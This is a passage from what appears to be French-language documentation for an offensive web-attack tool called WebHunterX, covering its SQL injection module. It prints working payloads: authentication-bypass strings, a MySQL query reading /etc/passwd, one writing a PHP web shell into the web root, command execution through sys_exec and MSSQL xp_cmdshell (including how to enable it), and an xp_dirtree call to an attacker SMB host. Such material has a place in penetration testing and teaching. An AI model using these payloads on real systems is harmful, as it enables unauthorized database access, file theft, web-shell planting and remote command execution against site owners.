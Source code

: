 | `--suffix` | Suffixe personnalisé pour les payloads |

## Techniques avancées

### Empreinte digitale des bases de données

Le module SQLi est capable d'identifier le type et la version du SGBD cible :

```
[+] Détection du système de base de données...
[+] Système détecté : MySQL
[+] Version : 5.7.34
[+] Utilisateur : 'www-data'@'localhost'
[+] Tables accessibles : 14
```

### Contournement d'authentification

WebHunterX peut utiliser des techniques d'injection SQL pour contourner les mécanismes d'authentification :

```sql
' OR 1=1 --
' OR '1'='1
admin' --
```

### Exploitation avancée pour MySQL

Exemples de techniques d'exploitation spécifiques à MySQL :

```sql
-- Lecture de fichiers (si les privilèges le permettent)
SELECT LOAD_FILE('/etc/passwd')

-- Écriture de fichiers (si les privilèges le permettent)
SELECT '<? system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'

-- Exécution de commandes (si disponible)
SELECT sys_exec('id')
```

### Exploitation avancée pour MSSQL

Exemples de techniques d'exploitation spécifiques à MSSQL :

```sql
-- Exécution de commandes via xp_cmdshell
EXEC xp_cmdshell 'whoami'

-- Activation de xp_cmdshell si désactivé
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE

-- Pivotage sur le réseau interne
EXEC xp_dirtree '\\attacker-smb-server\share'
```
